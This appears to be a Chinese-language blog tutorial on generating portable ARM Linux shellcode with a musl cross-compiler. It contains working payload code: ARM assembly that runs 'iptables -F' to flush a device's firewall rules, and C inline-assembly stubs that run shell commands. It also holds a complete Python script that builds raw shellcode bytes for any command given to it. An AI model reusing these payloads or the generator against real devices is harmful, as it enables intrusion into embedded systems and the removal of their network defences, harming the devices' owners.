

# 一种通用的shellcode构建方法

在适配不同版本的arm架构处理器时，总是出现调试环境下测试通过，但真实设备上出现莫名其妙的问题。

为了解决这个问题，决定找一个方法可以很方便地生成执行想要命令的shellcode。

经过实际测试，用musl编译嵌入汇编得到的shellcode兼容性最好。

### 自动生成shellcode

pwntools提供的生成工具：生成的指令兼容性很差，大多数情况都不能执行

msf提供的生成工具：

- 同样面临兼容性问题，不过已经好了非常多，但是有些情况下还是不行
- 并且不能执行随意的指令，提供的linux/armle/exec payload只能执行一个程序，不能设置参数

### 编译器

musl可以很方便地进行交叉编译，编译出来的二进制文件硬件兼容性较好

[https://github.com/richfelker/musl-cross-make](https://github.com/richfelker/musl-cross-make "https://github.com/richfelker/musl-cross-make")

配置

```makefile 
(base) ➜  musl-cross-make git:(master) cat ./config.mak
TARGET = arm-linux-musleabihf
TARGET = arm-linux-musleabi
#TARGET = x86_64-linux-musl
OUTPUT = /opt/cross
```


编译

```bash 
make -j8
make install
```


得到的工具所在目录/opt/cross/bin/arm-linux-musleabi-gcc

### 编译汇编指令

编译shellcode，一种方式是写一个.asm文件，然后通过as、ld命令编译和链接，执行命令如下

- 如下执行execve(\["/sbin/iptables","-F","\x00"])
- 用as和ld进行编译
- 用objcopy拷贝出代码段的字节码，xxd转化为字节形式

```6502 assembly 
 .section .text
    .global _start

_start:
    ldr r0, =0x0000462D     /* '-F' */
    sub sp,sp,#4
    str r0, [sp] /* 栈中: "-F" */

    ldr r0, =0x0073656C     /* 'les\0' */
    ldr r1, =0x62617470     /* 'ptab' */
    ldr r2, =0x692F6E69     /* 'in/i' */
    ldr r3, =0x62732F2F     /* '//sb' */

    sub sp,sp,#4
    str r0, [sp]               /* "les" */
    sub sp,sp,#4
    str r1, [sp]               /* "ptab" => iptab" */
    sub sp,sp,#4
    str r2, [sp]               /* "in/i" */
    sub sp,sp,#4
    str r3, [sp]               /* "//sb" */

    mov r0, sp              /* r0 = 文件路径指针 */
    add r1, sp, #16         /* r1 = argv[-F] */
    eor r2, r2, r2          /* r2 = NULL (envp) */

    sub sp,sp,#4
    str r2, [sp]               /* NULL */
    sub sp,sp,#4
    str r1, [sp]              /* "-F" 参数 */
    sub sp,sp,#4
    str r0, [sp]               /* "/sbin/iptables" 参数 */

    mov r1, sp              /* r1 = argv 指针 */

    mov r7, #11             /* execve syscall */
    svc #0
    
```


编译命令为

```bash 
/opt/cross/arm-linux-musleabi/bin/as -o payload.o payload.asm 
/opt/cross/arm-linux-musleabi/bin/ld -N -o payload payload.o 
/opt/cross/arm-linux-musleabi/bin/objcopy -O binary payload payload.bin
xxd -p ./payload.bin | tr -d '\n' | sed 's/\(..\)/\\x\1/g' | sed 's/^/b"/;s/$/"/'
```


或者用pwntools的asm函数编译它

```python 
from pwn import *
context(os='linux', arch='arm', endian='little', bits=32)
shellcode="""xxx"""
asm(shellcode)

```


但是这种方法会面临两个问题：

- 1、想要执行命令很费劲，需要手动把命令字节码写成小端字节序形势
- 2、指令的兼容性不好，ldr 指令不是所有arm架构都兼容，也可以把ldr指令换成其他指令，这会更复杂

最重要的是兼容性差，目标架构不同会出现各种问题

### 编译嵌入汇编

正常情况下定义一个字符串，编译器会把字符串保存到rodata段，在导出text段中生成的shellcode，因为缺乏字符串导致crash

```c 
#include <sys/syscall.h>
void _start() {
   char *arg0="/bin/sh";

   char *arg1="-c";

   char *arg2="id";


    char *args[] = {arg0, arg1, arg2, 0};
    __asm__ volatile (
        "mov r7, %0\n\t"        
        "mov r0, %1\n\t"        
        "mov r1, %2\n\t"        
        "mov r2, #0\n\t"       
        "svc #0\n\t" 
        :
        : "i"(11), "r"(arg0), "r"(args)
        : "r0", "r1", "r2", "r7"
    );

}
///opt/cross/bin/arm-linux-musleabi-gcc -nostdlib -O0 -fno-pic -fno-builtin -o payload payload.c
```





可以通过定义为如下形势，把数据保存到栈里

```c 

#include <sys/syscall.h>
void _start() {
   char arg0[8];
arg0[0] = '/';
arg0[1] = 'b';
arg0[2] = 'i';
arg0[3] = 'n';
arg0[4] = '/';
arg0[5] = 's';
arg0[6] = 'h';
arg0[7] = '\0';
   char arg1[3];
arg1[0] = '-';
arg1[1] = 'c';
arg1[2] = '\0';
   char arg2[3];
arg2[0] = 'i';
arg2[1] = 'd';
arg2[2] = '\0';

    char *args[] = {arg0, arg1, arg2, 0};
    __asm__ volatile (
        "mov r7, %0\n\t"        
        "mov r0, %1\n\t"        
        "mov r1, %2\n\t"        
        "mov r2, #0\n\t"       
        "svc #0\n\t" 
        :
        : "i"(11), "r"(arg0), "r"(args)
        : "r0", "r1", "r2", "r7"
    );

}

```


得到的汇编指令如下，不再依赖二栈之外的存储


### 生成脚本

可以用python处理，生成上述格式的c代码，然后编译，整合为一个python脚本如下

```python 
import sys
import os
def format_c_char_array(var_name, string):
    output = []
    length = len(string) + 1  # include null terminator
    output.append(f"char {var_name}[{length}];")
    for i, c in enumerate(string):
        if c == "'":
            c_repr = "\\'"  # escape single quote
        elif c == '\\':
            c_repr = '\\\\'  # escape backslash
        elif c == '\n':
            c_repr = '\\n'
        elif c == '\t':
            c_repr = '\\t'
        else:
            c_repr = c
        output.append(f"{var_name}[{i}] = '{c_repr}';")
    output.append(f"{var_name}[{length - 1}] = '\\0';")
    return "\n".join(output)


# 示例用法


shecode_c="""
#include <sys/syscall.h>
void _start() {"""+f"""
   {format_c_char_array("arg0", "/bin/sh")}
   {format_c_char_array("arg1", "-c")}
   {format_c_char_array("arg2", sys.argv[1])}
"""+"""
    char *args[] = {arg0, arg1, arg2, 0};
    __asm__ volatile (
        "mov r7, %0\\n\\t"        
        "mov r0, %1\\n\\t"        
        "mov r1, %2\\n\\t"        
        "mov r2, #0\\n\\t"       
        "svc #0\\n\\t" 
        :
        : "i"(11), "r"(arg0), "r"(args)
        : "r0", "r1", "r2", "r7"
    );

}
"""
with open("./shellcode.c","w")as fd:
    fd.write(shecode_c)

os.system("rm ./shellcode ./shellcode.bin")
gccpath="/opt/cross/bin/"
os.system(f"""{gccpath}/arm-linux-musleabi-gcc -nostdlib -O0 -fno-pic -fno-builtin -o ./shellcode ./shellcode.c""")
os.system(f"{gccpath}/arm-linux-musleabi-objcopy -O binary ./shellcode ./shellcode.bin")
          
os.system(r"""xxd -p ./shellcode.bin | tr -d '\n' | sed 's/\(..\)/\\x\1/g' | sed 's/^/b"/;s/$/"/'""")
```


